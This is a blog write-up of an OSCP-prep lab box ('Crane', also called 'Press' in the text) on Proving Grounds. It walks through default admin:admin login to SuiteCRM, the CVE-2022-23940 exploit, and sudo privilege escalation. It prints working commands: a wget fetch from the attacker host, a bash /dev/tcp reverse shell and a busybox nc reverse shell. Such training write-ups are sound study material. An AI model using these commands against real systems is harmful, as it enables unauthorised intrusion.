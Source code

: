 ```yaml
---
title: " Crane - Proving Grounds"
excerpt: "A Writeup of the Crane Box from Proving Grounds<br><img src='/images/Crane/Crane_5.png'>"
collection: portfolio
---
```



Here is a writeup for the Press lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). I start out with an nmap scan and check out port 80 as soon as it pops up. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[Crane_5.png]](/images/Crane/Crane_5.png){: .center-aligned width="600px"}

Looks like we have a web app entitled SuiteCRM. I check the source for a version and run a gobuster scan, but it also turns out I can log into using admin:admin. This might come in handy because I see some authenticated exploits on exploit-db. 

It looks like this one actually has admin:admin hardcoded. Maybe I can check authenticated exploits for clues like that in the future. We'll download it and change the URL.

![Crane_4.png](/images/Crane/Crane_4.png){: .center-aligned width="600px"}

I can't get this one working, but I look around on Google, and I find another one here: https://github.com/manuelz120/CVE-2022-23940. 

After cloning the repo I run this command: `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'wget http://192.168.45.154/shell8080.sh'` and the file is downloaded. That means we have execution at least. Unfortunately I can't get the shell to execute, or at least I can't get the reverse shell.  I make a note to retry with different shells and ports and from different directories. It makes sense to start with ports first, but I try with 80, 8080, 443, and 3306 (because there is a SQL server running) using a simpler shell (`/bin/bash -i >& /dev/tcp/192.168.45.154/80 0>&1`). Nothing on that unfortunately. 

I try a few other reverse shells and can't seem to get them working on any port, until I try this one: `busybox nc 192.168.45.154 80 -e /bin/bash`. The full command is  `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'busybox nc 192.168.45.154 80 -e /bin/bash'`. I'm not sure I've used this one much, but I noticed in someone else's OSCP notes as a notably good one. Maybe I need to try it more, but I did get a shell with it as www-data. 

I download and run `linpeas.sh` to scope the machine out. The /usr/sbin/service binary immediately jumps out while I'm scrolling through the linpeas output. 

![Crane_3.png](/images/Crane/Crane_3.png){: .center-aligned width="600px"}

Then I notice I can run it using sudo. That's a good sign. 

![Crane_2.png](/images/Crane/Crane_2.png){: .center-aligned width="600px"}

Bingo. 

![Crane_1.png](/images/Crane/Crane_1.png){: .center-aligned width="600px"}

What did we learn on this box? Don't give up if a few shells don't work, and spend some more time with that busybox one in particular. Oh - and try admin:admin when logging into a service. Note that there is a local.txt file in the /var/www/html directory. I missed that when I got the initial shell. 



